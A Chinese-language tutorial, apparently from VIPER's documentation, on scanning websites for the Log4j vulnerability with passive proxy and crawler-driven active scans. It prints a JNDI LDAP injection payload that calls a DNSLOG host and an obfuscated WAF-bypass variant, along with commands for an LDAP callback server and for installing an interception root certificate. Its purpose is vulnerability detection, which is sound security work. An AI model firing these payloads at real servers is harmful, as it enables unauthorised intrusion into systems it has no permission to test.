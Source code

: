 # 使用VIPER扫描Log4j漏洞(主动扫描/被动扫描)

# 功能特性

## 被动扫描

+ 自动替换GET请求参数为Payload
+ 自动替换POST请求参数为Payload
+ 自动替换POST请求JSON中值为Payload
+ 自动替换跳过密码字段
+ 自动在headers中添加Payload(依据字典轮询)
+ Payload包含原始Payload与绕过WAF的Payload
+ 支持DNSLOG与LDAPServer两种回连模式(LDAPServer更适用于内网自查)

```plain
${jndi:ldap://ed3bf69b5e9611ec.xxx.ceye.io/hi}

${${c:Xy:-j}${Kp:W:q:-n}${dzD:-d}${UQt:-i}${GT:-:}${s:hzr:e:-l}${e:ZSJ:yd:-d}${fA:kBl:c:-a}${Hbn:q:-p}${f:Uu:-:}${HOB:-/}${Ijk:E:-/}${dfG:-e}${F:dSj:JE:-d}${Z:-3}${BOI:Yrf:-b}${Yt:S:-f}${DKB:-6}}${Z:-b}${xdB:XBZ:-5}${dW:-e}${uC:-6}${OC:KVJ:j:-1}${L:o:-1}${jhr:-e}${d:-c}${Gi:nUE:AX:-.}${vuo:hy:Srz:-9}${xv:-f}${KG:-p}${xm:-p}${My:aQw:-b}${Mz:Xr:-j}${Z:wWt:-.}${Kx:D:-c}${Y:-e}${j:-y}${xOm:-e}${Cn:-.}${N:Tx:de:-i}${hT:h:P:-o}${qi:yx:i:-/}${j:-h}${Qfp:-i}}
```

+ Payload中包含UUID,可根据DNSLOG记录查找具体触发漏洞的请求内容

## 主动扫描

+ 通过chrome headless + 爬虫的方式获取自动获取页面所有请求,将请求导入到被动proxy中,实现自动化扫描
+ 命令

```plain
.\crawlergo.exe -c ./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

# 使用教程

## 被动扫描

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER

![](img\Use_Viper_to_scan_log4j_vulnerabilities\1.webp)

+ 将浏览器代理设置为viperip:28888

![](img\Use_Viper_to_scan_log4j_vulnerabilities\2.webp)

+ 开启`被动扫描`中Log4j2模块

![](img\Use_Viper_to_scan_log4j_vulnerabilities\3.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\4.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\5.webp)

+ 通过浏览器打开目标网站,随意点击,输入信息等

![](img\Use_Viper_to_scan_log4j_vulnerabilities\6.webp)![](img\Use_Viper_to_scan_log4j_vulnerabilities\7.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\8.webp)

+ VIPER后台会自动替换输入的值为Payload
+ 登录DNSlog平台,观察是否有记录

![](img\Use_Viper_to_scan_log4j_vulnerabilities\9.webp)

+ 拷贝红框中的uuid信息,在主页面查询

![](img\Use_Viper_to_scan_log4j_vulnerabilities\10.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\11.webp)

+ 查询结果中包含可以触发漏洞的具体请求

![](img\Use_Viper_to_scan_log4j_vulnerabilities\12.webp)

## 主动扫描

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER

+ 开启`被动扫描`中Log4j2模块

+ 这里假设准备测试的网站为[http://target.com](http://target.com)
+ 安装crawlergo  [https://github.com/Qianlitp/crawlergo](https://github.com/Qianlitp/crawlergo)
+ 启动爬虫,并将流量发送到VIPER的代理中

```plain
.\crawlergo.exe -c ./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

+ 等待爬虫结束
+ 登录DNSlog平台,观察是否有记录

![](img\Use_Viper_to_scan_log4j_vulnerabilities\13.webp)

+ 拷贝红框中的uuid信息,在主页面查询


![](img\Use_Viper_to_scan_log4j_vulnerabilities\14.webp)

+ 查询结果中包含可以触发漏洞的具体请求(该请求为Crawlergo自动发送)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\15.webp)

## 使用LDAPServer回连

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER

+ 将浏览器代理设置为viperip:28888

+ 开启`被动扫描`中Log4j2模块

+ 这里配置DNSLOG为`VPSIP:1387`

![](img\Use_Viper_to_scan_log4j_vulnerabilities\16.webp)

+ 执行如下命令,开启VIPER内置的LDAPServer

```plain
docker exec -it viper-c bash
python3 /root/viper/STATICFILES/Tools/ldapserver.py -p 1387
```

![](img\Use_Viper_to_scan_log4j_vulnerabilities\17.webp)

+ 通过浏览器打开目标网站,随意点击,输入信息等

+ VIPER后台会自动替换输入的值为Payload
+ LDAPServer会收到回连请求,并打印请求UUID

![](img\Use_Viper_to_scan_log4j_vulnerabilities\18.webp)

+ 拷贝红框中的uuid信息,在主页面查询

+ 查询结果中包含可以触发漏洞的具体请求

##   

## 测试HTTPS网站

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER

+ 将浏览器代理设置为viperip:28888


+ 浏览器打开[http://mitm.it/](http://mitm.it/)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\19.webp)

+ 下载对应平台的证书,并安装(以windows为例)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\20.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\21.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\22.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\23.webp)

+ 不用填写信息

![](img\Use_Viper_to_scan_log4j_vulnerabilities\24.webp)

+ 这里要选择受信任的根证书

![](img\Use_Viper_to_scan_log4j_vulnerabilities\25.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\26.webp)

+ 请在测试结束后从系统配置中删除对应的证书



